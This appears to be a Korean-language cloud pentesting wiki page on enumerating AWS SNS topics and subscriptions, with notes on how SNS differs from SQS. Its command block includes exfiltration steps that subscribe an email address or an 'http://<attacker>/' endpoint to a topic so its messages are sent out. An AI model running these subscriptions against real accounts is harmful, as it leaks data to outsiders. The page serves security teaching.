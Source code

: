# AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS)는 **완전 관리형 메시징 서비스**로 설명됩니다. 이 서비스는 **애플리케이션 간** (A2A) 및 **애플리케이션 대 개인** (A2P) 통신 유형을 모두 지원합니다.

A2A 통신을 위한 주요 기능에는 **게시/구독 (pub/sub) 메커니즘**이 포함됩니다. 이러한 메커니즘은 **주제**를 도입하여 높은 처리량의 **푸시 기반, 다대다 메시징**을 가능하게 합니다. 이 기능은 분산 시스템, 마이크로서비스 및 이벤트 기반 서버리스 아키텍처와 관련된 시나리오에서 매우 유리합니다. 이러한 주제를 활용함으로써 게시자 시스템은 **광범위한 구독자 시스템**에 메시지를 효율적으로 배포하여 팬아웃 메시징 패턴을 촉진할 수 있습니다.

### **SQS와의 차이점**

**SQS**는 **큐 기반** 서비스로, 포인트 투 포인트 통신을 허용하여 메시지가 **단일 소비자**에 의해 처리되도록 보장합니다. 이 서비스는 **최소 한 번 전달**을 제공하며, 표준 및 FIFO 큐를 지원하고, 재시도 및 지연 처리를 위한 메시지 보존을 허용합니다.\
반면에 **SNS**는 **게시/구독 기반 서비스**로, 메시지를 **여러 구독자**에게 동시에 방송하여 **일대다** 통신을 가능하게 합니다. 이 서비스는 **이메일, SMS, Lambda 함수 및 HTTP/HTTPS**와 같은 다양한 구독 엔드포인트를 지원하며, 타겟 메시지 전달을 위한 필터링 메커니즘을 제공합니다.\
두 서비스 모두 분산 시스템의 구성 요소 간의 분리를 가능하게 하지만, SQS는 큐 통신에 중점을 두고, SNS는 이벤트 기반 팬아웃 통신 패턴을 강조합니다.

### **열거**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> **주제의 유형이 FIFO인 경우**, **SQS** 프로토콜을 사용하는 구독자만 사용할 수 있습니다 (HTTP 또는 HTTPS는 사용할 수 없습니다).
>
> 또한, `--topic-arn`에 지역이 포함되어 있더라도 **`--region`**에서 올바른 지역을 지정해야 하며, 그렇지 않으면 접근 권한이 없다는 오류가 발생할 수 있지만 문제는 지역입니다.

#### 인증되지 않은 접근

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### 권한 상승

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### 포스트 익스플로잇

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### 지속성

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## 참고자료

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
